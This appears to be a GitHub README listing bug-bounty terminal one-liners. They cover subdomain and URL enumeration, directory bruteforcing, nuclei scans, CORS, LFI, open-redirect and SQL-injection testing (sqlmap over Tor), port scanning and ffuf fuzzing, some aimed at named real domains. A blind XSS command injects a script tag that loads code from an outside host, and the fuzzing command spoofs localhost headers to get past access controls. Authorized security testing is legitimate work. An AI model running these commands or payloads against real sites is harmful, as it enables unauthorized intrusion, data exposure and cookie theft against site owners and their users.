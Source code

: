 # Bug Bounty Hunting Terminal Commands

This repository contains a collection of terminal commands commonly used for bug bounty hunting.

## Subdomain Enumeration

```bash
# Find subdomains using Subfinder
subfinder -d viator.com -all -recursive > subdomain.txt

# Check for alive subdomains with specific ports
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

## URL Discovery

```bash
# Discover URLs with Katana and filter useful file types
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# Search for specific file types in URLs
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

## JavaScript Files

```bash
# Extract JavaScript files and test for exposures
cat allurls.txt | grep -E "\.js$" >> js.txt
cat js.txt | nuclei -t /home/asshu/nuclei-templates/http/exposures/

# Directly scan JavaScript files from domain
echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/asshu/nuclei-templates/http/exposures/ -c 30
```

## Directory Bruteforcing

```bash
# Bruteforce common directory names
dirsearch -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js,.json
```

## Blind XSS Detection

```bash
# Detect blind XSS vulnerabilities with a payload
 subfinder -d flow.com | httpx-toolkit --silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aswin></script>' -parameters
```

## Subdomain Takeover

```bash
# Run Subzy to detect subdomain takeovers
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

## CORS Misconfiguration

```bash
# Test for CORS misconfiguration
python3 corsy.py -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

## Vulnerability Scanning

```bash
# Run Nuclei templates against subdomains
nuclei -list subdomains_alive.txt -t /home/asshu/nuclei-templates/Priv8-Nuclei-Templates/
nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
```

## Local File Inclusion (LFI) & Open Redirect

```bash
# Test for LFI vulnerabilities
cat allurls.txt | gf lfi | nuclei -tags lfi

# Test for Open Redirect vulnerabilities
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect
```

## API, Development, and Staging Subdomains

```bash
# Filter API, development, and staging subdomains
subfinder -d target.com -silent | dnsprobe -silent | cut -d ' ' -f1  | grep --color 'api\|dev\|stg\|test\|admin\|demo\|stage\|pre\|vpn'
```

## Additional Subdomain Enumeration Techniques

```bash
# BufferOver, Riddler, and Web Archive methods for subdomains
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

## SQL Injection Detection

```bash
# SQL Injection testing with SQLMap
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor
```

## Port Scanning

```bash
# Port scanning with Naabu
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt
```

```bash
# Private template 
subfinder -d xyz.com -all  | nuclei -t crlf.yaml -rl 50
subfinder -d xyz.com -all  | nuclei -t openRedirect.yaml -rl 100
subfinder -d xyz.com -all  | nuclei -t iis.yaml
subfinder -d xyz.com -all  | nuclei -t cors.yaml -rl 100
subfinder -d xyz.com -all  | waybackurls | gf sqli | uro | nuclei -t errorsqli.yaml -rl 50
```

```bash
#  FFUF Oneliner for Info disclose
ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0" -H "X-Forwarded-For: 127.0.0.1" -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-Host: localhost" -t 100 -r -o results.json
```

## License

This repository is licensed under the MIT License.
